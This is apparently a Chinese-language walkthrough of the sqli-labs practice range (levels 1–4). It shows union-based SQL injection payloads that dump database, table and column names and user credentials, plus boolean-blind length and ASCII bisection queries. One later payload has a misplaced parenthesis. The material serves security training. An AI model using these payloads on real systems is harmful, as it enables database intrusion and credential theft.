




- 工具：phpstudy，Hackbar
- 搭建靶场：sqli-labs(从Github上下载官方的，有些民间的可能会有木马)
- 数据库：mysql5.7
联合注入
需要页面有回显位
查找注入点
判断使字符型还是数字型注入id=2-1
如果是字符型，找到闭合方式，‘，“，’)
判断查询列数，order by
查询回显位置，同时将原先的查询id注释掉
拿到表名和列名：数据库（information_schema），表名集合表（tables），列名集合表（columns）用group_concat()确保所有查询信息能放到一行显示出来
less-1
判断是否存在sql注入
–+表示对多余的引号进行注释，因为是字符型，数字型就不用管
?id=1' order by 3--+
显示正常
?id=1' order by 4--+
报错
得知less-1共有三列，爆出显示位
?id=1' union select 1,2,3--+
在mysql里面尝试union select

?id=-1' union select 1,2,3--+
使id=-1报错注释，页面显示正常

获取数据名
?id=-1' union select 1,database(),version() --+

中间省略了一些过程详见less-2
查询用户名和密码
?id=-1' union select 1,group_concat(username,'~',password),3 from users--+

less-2
判断为数字型，页面改变
?id=2-1 ？id=2
三列
?id=1 order by 3
闭合方式为‘
?id=1' order by 3
爆数据名
？id=-1 union select 1,database(),version()
爆表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
爆列名
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security'
less-3
与前两关不同的地方是闭合方式
?id=1'

单引号加括号，后续一律以?id=1’)开头，和上面同
less-4
判断得知闭合方式双引号加括号
/?id=2"

布尔盲注
页面没有回显，只适用于Mysql，本质就是猜数字游戏，ASCII码判断用二分法，对于字符长度判断可以直接猜大小
判断得知闭合方式为'
- 二分法判断数据库长度
?id=1' and length(database())>10--+ //不显示
?id=1' and length(database())>5--+ //正常显示
?id=1' and length(database())>7--+ //正常显示
?id=1' and length(database())>8--+ //不显示
得知database（）长度为8
- 二分法利用ASCII码判断字符
?id=1' and ascii(substr(database(),1,1))>100--+ //正常显示
?id=1' and ascii(substr(database(),1,1))>114--+ //正常显示
?id=1' and ascii(substr(database(),1,1))>120--+ //不显示
?id=1' and ascii(substr(database(),1,1))>115--+ //不显示
得知第一个字符ASCII码为115，即“s”
依次判断8个字符，知当前数据库为security
- 判断当前数据库的表
判断是否存在admin表
?id=1' and exists(select * from admin)--+
- 判断表的个数
?id=1' and (select count(table_name) from information_schema.tables where table_schema='security')>4--+ //正常显示
?id=1' and (select count(table_name) from information_schema.tables where table_schema='security')>3--+ //不显示
- 逐一判断表名字符长度
?id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6--+
- 逐一判断表名字符的ASCII码
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>100--+
存在emails,referers,uagents,users
- 对column执行相同的操作，where语句修改
where table_name = 'users' //以及uagents,referers,emails.......一个一个判断，虽然这个过程真的十分漫长
得知users中有三个字段id,username,password
- 判断字段长度
?id=1' and length((select id from users limit 3,1))=1--+
- 判断字段ASCII值
?id=1' and ascii(substr((select id from users limit 3,1)),1,1)>100--+